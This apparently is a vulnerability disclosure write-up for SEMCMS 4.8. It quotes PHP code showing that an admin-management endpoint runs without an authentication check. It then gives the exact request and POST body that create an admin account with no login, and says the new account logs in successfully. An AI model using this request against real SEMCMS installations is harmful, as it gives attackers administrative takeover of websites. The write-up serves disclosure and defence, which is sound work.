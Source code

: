 # Sem CMS 4.8 Unauthenticated User Gains Admin Privilege


Introduction to Semcms

SEMCMS is a foreign trade website content management system (CMS) that supports multiple languages.

v4.8 Download Link: http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip
Causes of vulnerabilities:

/6EeOq0_Admin/Top_include.php

Vulnerable Code Blocks:

```
<?php
include_once './Include/inc.php';
include_once 'SEMCMS_Function.php';
$SCQuanXian=checkuser($db_conn);
?>
```

One can observe that the code installs SEMCMS_Funtion.php before checking if the admin is a valid user in the admin page because authentication funnction is called from there.

Below you can observe the authentication check function which starts at line 984 and ends at line 1013

```
}elseif($CF=="users"){  
 
   if($Class=="login"){ //登陆   
       
       $US=test_input($_POST['UserName']);
       $PS=test_input($_POST['UserPass']);
     
        if(empty($US) || empty($PS)){

                 echo "<script language='javascript'>alert('账号或密码不能为空!');top.location.href='index.html';</script>";

        }else{

                $PS=md5($PS);
                $query=$db_conn->query("select * from sc_user where user_admin='$US' and user_ps='$PS'");
                if (mysqli_num_rows($query)>0 ){

                      $row=mysqli_fetch_assoc($query);

                      setcookie("scusername", $row['user_name'],time()+3600*24,"/");
                      setcookie("scuseradmin", $row['user_admin'],time()+3600*24,"/");
                      setcookie("scuserpass", $row['user_ps'],time()+3600*24,"/");//设定时间为24个小时
                      header("Location:SEMCMS_Main.php");  

                  }else{

                       echo "<script language='javascript'>alert('账号或密码错误!');top.location.href='index.html';</script>";

                   }
        }
```



If we look further in 'SEMCMS_Funtion.php' to check what are the avaliable functions, the code snippet below found at 782 which is used to add or modify an admin:

```
elseif ($CF=="user"){

         $table="sc_user";

        if($Class=="add" || $Class=="edit"){ //信息添加

           $user_name=test_input($_POST['user_name']);
           $user_admin=test_input($_POST['user_admin']);
           $user_ps=  test_input($_POST['user_ps']);
           $user_tel=test_input($_POST['user_tel']);
           $user_email=test_input($_POST['user_email']);
           $field="user_name,user_admin,user_ps,user_tel,user_email";
           $val=array($user_name,$user_admin,$user_ps,$user_tel,$user_email); 

        }

        switch ($Class) {

          case 'add':

            if(empty($user_name) || empty($user_admin) || empty($user_ps) || empty($user_email)  ){  //判断空字段 

               header("Location:SEMCMS_User.php?type=add&err=003"); 

             }else{  //写入数据库
                
              $Ant->AntAdd($table,$field,$val,$db_conn); //写入数据库 
              header("Location: SEMCMS_User.php?lgid=".$languageID."&err=001");     
                
            }

            break;
```

When we visit the page http://url/6EeOq0_Admin/index.html  the application installs the login form. When we send a dumb login request we see that the credentials are posted to the end-point "/6EeOq0_Admin/SEMCMS_Top_include.php?CF=users&Class=login HTTP/1.1"

![image](https://github.com/turabiaslan/semcms/assets/32524544/5db25ff0-a3e0-40b5-a54a-053e54c4166a)

Observe the parameters: CF=users and Class=login. So The application calls SEMCMS_Top_include.php and then that page calls SEMCMS_Funtion.php. Let's send this request to Burp Suite's Repater.


If we change CF parameter to 'user' and Class parameter to 'add' like as shown in the last code snippet, we should be able to send an admin adding request to the "/6EeOq0_Admin/SEMCMS_Top_include.php?CF=user&Class=add" end-point.



There are five parameters present in the body of the request; user_name, user_admin, user_ps, user_tel, user_email. When we add this parameters to the request and supply values them respectively, we should be able to add an admin user without authenticating the application.
Below you can find the payload. user_ps value is the MD5 hash of string 1.

```
user_name=turabi&user_admin=Turabi&user_ps=c4ca4238a0b923820dcc509a6f75849b&user_tel=b&user_email=turabi@beam.com
```

![image](https://github.com/turabiaslan/semcms/assets/32524544/08a9bdf2-00f0-484e-bb7f-7f6ca7f44a31)



Let's try the new user on the application:

![image](https://github.com/turabiaslan/semcms/assets/32524544/4961d962-4728-429a-a641-d021a79ae590)


We successfully login to our newly added user

![image](https://github.com/turabiaslan/semcms/assets/32524544/87330e72-c1d8-4a14-b3c2-6e786cc212f4)
